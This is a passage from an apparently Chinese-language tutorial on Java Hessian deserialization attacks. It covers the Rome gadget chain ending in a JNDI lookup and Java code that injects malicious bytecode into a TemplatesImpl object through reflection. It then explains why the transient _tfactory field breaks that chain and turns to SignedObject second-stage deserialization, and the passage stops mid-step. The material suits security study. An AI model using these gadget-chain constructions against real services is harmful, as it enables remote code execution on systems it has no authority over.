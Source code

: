 4. 调用链：
    ```java
    /*
    	HashMap.readObject()
    		ObjectBean.hashCode()
                EqualsBean.beanHashCode()
                    ToStringBean.toString()
                        JdbcRowSetImpl.getDatabaseMetaData()
                            JdbcRowSetImpl.connect()
                                InitialContext.lookup()
                                ...
    */
    ```

### 5.2 Rome - 不出网 - 二次反序列化

1. 既然想到了 Rome，那原来的 Rome 链是否能触发呢？本质就是查看 `TemplatesImpl` 是否有啥条件是不满足 Hessian 的要求的。先来回顾 `TemplatesImpl` 作为 sink 的代码：
    ```java
    // 1. 读取恶意类 bytes[] 并 sink 构造
    ClassPool pool = ClassPool.getDefault();
    CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
    byte[] bytes = ctClass.toBytecode();
    TemplatesImpl templates = new TemplatesImpl();
    // 要求 1 - 注入恶意字节码
    Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
    bytecodesField.setAccessible(true);
    bytecodesField.set(templates, new byte[][]{bytes});
    // 要求 2 - 保证 _name 不为 null
    Field nameField = templates.getClass().getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates, "EndlessShw");
    // 可选要求 3 - 保证 _tfactory 不为 null
    ```

    注意这里的可选要求 3，原来链中的 `_tfactory` 默认是不为 `null` 的，但是现在来看这个参数：
    ![image-20241014171538278](Hessian/image-20241014171538278.png)
    这个参数被 `transient` 修饰，上述说到，[Hessian 不会写入和恢复被 `transient` 修饰的变量，这就意味着其在反序列化时必定为 `null`](#3.4 一些细节)，从而导致链中断。

2. 因此还需要另寻他法，找到一个 getter 具有反射调用函数的功能。但是其中一个常见的方式是使用 `java.security.SignedObject` 进行二次反序列化，这个思路也是另辟蹊径，先来看一下他的 `getObject()`：